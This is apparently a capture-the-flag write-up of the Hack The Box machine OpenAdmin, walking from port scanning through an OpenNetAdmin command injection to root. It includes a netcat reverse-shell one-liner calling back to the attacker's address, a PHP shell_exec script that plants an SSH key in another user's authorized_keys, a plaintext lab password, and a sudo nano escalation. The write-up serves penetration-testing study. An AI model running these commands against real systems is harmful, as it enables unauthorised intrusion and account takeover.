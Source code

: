 ```yaml
---
layout: post
title:  "OpenAdmin"
date:   2020-02-07 18:30:00 +0100
categories: hackthebox
---
```

OpenAdmin
===
![OpenAdmin](/assets/images/OpenAdmin/OpenAdmin.png)

---
### Nmap
We start with an `nmap` scan:

> root@misty:~# nmap -sV -sC -oA OpenAdmin 10.10.10.171

```
# Nmap 7.80 scan initiated Wed Jan  8 18:44:48 2020 as: nmap -sV -sC -oA OpenAdmin 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 18:46:21 2020 -- 1 IP address (1 host up) scanned in 92.99 seconds
```

We find `ssh` on port 22 and `http` on port 80.

---

### Web Enumeration
We use `gobuster` to find some useful directories that we can exploit:

> root@misty:~# gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o OpenAdmin.dir

```
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/08 17:53:21 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
===============================================================
2020/01/08 18:51:04 Finished
===============================================================
```
Going to http://10.10.10.171/music/ shows a login button. We click it and we are redirected to [this](http://10.10.10.171/ona/). It is the OpenNetAdmin Tool running the 18.1.1 version.

---

### Command Injection
Doing some research, we find there is a Remote Code Execution vulnerability (OpenNetAdmin 18.1.1 - Command Injection Exploit).

We take the [source code](https://packetstormsecurity.com/files/155406/opennetadmin1811-exec.txt) and we create a reverse shell. First, we open a local port and then we write this command as input of the exploit.

> root@misty:~# nc -lvnp 51111
> root@misty:~# ./exploit.sh http://10.10.10.171/ona/
> $ mkfifo /tmp/flipper; nc 10.10.15.182 51111 < /tmp/flipper | /bin/sh > /tmp/flipper; rm /tmp/flipper;

---

### Jimmy

After some enumeration, we find some creds (__jimmy:n1nj4w4rri0R!__) in */opt/ona/www/local/config/database_settings.inc.php*
Also, we find two users (__jimmy__ and __joanna__) and a common group (__internal__).
Now, we connect via `ssh` using the creds of __jimmy__:

> root@misty:~# ssh jimmy@10.10.10.171

---

### Joanna

Once we are logged, we find three local ports open.

> jimmy@openadmin:~$ netstat -nputa

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
```

We have the port 53 (*DNS*), the port 3306 (*MySQL*) and the port 52846. Then, we find under */var/www* directory a folder called __internal__. The user __jimmy__ is the owner and the group __internal__ has all the permissions in that directory. Inside it, we find the source code of the *PHP*s that are served in the port 52846.
1) __index.php__: Has a login form with the SHA512 of another pass of __jimmy__.
2) __main.php__: Displays the private key of __joanna__ using *shell_exec()*.
3) __logout.php__: A simple logout.

We decide to create a `ssh` tunnel to display it in our browser:

> root@misty:~# ssh jimmy@10.10.10.171 -L 55555:127.0.0.1:52846

And going to http://127.0.0.1:55555, we see the login form. Because we have all the permissions in the __internal__ directory, we've decide to create our own PHP that adds a public key to the *authorized_keys* of __joanna__ using the *shell_exec()* function to execute commands.

__flipper.php__

```php
<?php
    shell_exec("cat /var/www/internal/fake.txt >> /home/joanna/.ssh/authorized_keys");
    $keys = shell_exec("cat /home/joanna/.ssh/authorized_keys");
    echo "<pre>" . $keys . "</pre>";
 ?>
```

Then, we generate a new `ssh` key using `ssh-keygen` and we paste the public key inside *fake.txt*. We change the group own of *flipper.php* to __internal__ using `chgrp`. After that, we go to http://127.0.0.1:55555/flipper.php and we can see that we have added our public key to the *authorized_keys* of __joanna__.

Finally, we login with `ssh` using our private key and we have the user flag.

> root@misty:~# ssh joanna@10.10.10.171 -i OpenAdmin.key
> joanna@openadmin:~$ cat /home/joanna/user.txt
`HTB{c9b2cf07d40807e62af62660f0c81b5f}`

---

### Root
We are going to use [GTFOBins](https://gtfobins.github.io/) to gain privilegies. We find that __joanna__ can edit the file */opt/priv* owned by __root__ without password.

> joanna@openadmin:~$ sudo -l
`sudo /bin/nano /opt/priv`

Following the instructions for `nano`, we have our root shell and we can own the root flag.

> root@openadmin:~# cat /root/root.txt
`HTB{2f907ed450b361b2c2bf4e8795d5b561}`
